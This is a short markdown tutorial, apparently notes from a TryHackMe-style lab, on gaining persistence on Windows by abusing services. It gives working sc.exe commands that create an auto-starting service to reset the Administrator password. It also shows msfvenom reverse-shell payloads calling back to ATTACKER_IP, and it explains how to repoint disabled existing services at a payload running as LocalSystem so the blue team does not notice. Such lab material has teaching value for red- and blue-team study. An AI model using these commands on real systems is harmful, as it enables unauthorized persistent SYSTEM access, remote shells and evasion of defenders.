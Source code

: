 # Abusing services

## Creating backdoor services

Create and start a service named `service` using the following commands:

    sc.exe create <service> binPath= "net user Administrator <password>" start= auto
    sc.exe start <service>

Note: There must be a space after each equal sign for the command to work.

The `net user` command will be executed when the service is started, resetting the Administrator's password to 
`password`. The service has been set to start automatically (`start= auto`), so that it runs without requiring user 
interaction.

We can also create a reverse shell with `msfvenom` and associate it with the created service. Service executables 
are unique since they need to implement a particular protocol to be handled by the system. If you want to create an 
executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe

Copy the executable to the target system, say in `C:\Windows` and point the service's `binPath` to it:

    sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
    sc.exe start THMservice2

This creates a connection back to your attacker's machine (if all went well).

## Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation 
across the network. We may want to reuse an existing service instead of creating one to avoid detection. 
Any disabled service will be a good candidate, as it can be altered without the user noticing it.

Get a list of available services:

    sc.exe query state=all

Query the service's configuration:

    sc.exe qc <service>

For using a service for persistence:

* The executable `BINARY_PATH_NAME` points to the payload.
* The service `START_TYPE` is automatic so that the payload runs without user interaction.
* The `SERVICE_START_NAME`, which is the account under which the service will run, is preferably set to `LocalSystem` 
to gain `SYSTEM` privileges.

Create a reverse shell with msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe

Reconfigure the `service` parameters:

    sc.exe config <service> binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"

Query the service's configuration again to check all went as expected:

    sc.exe qc <service>


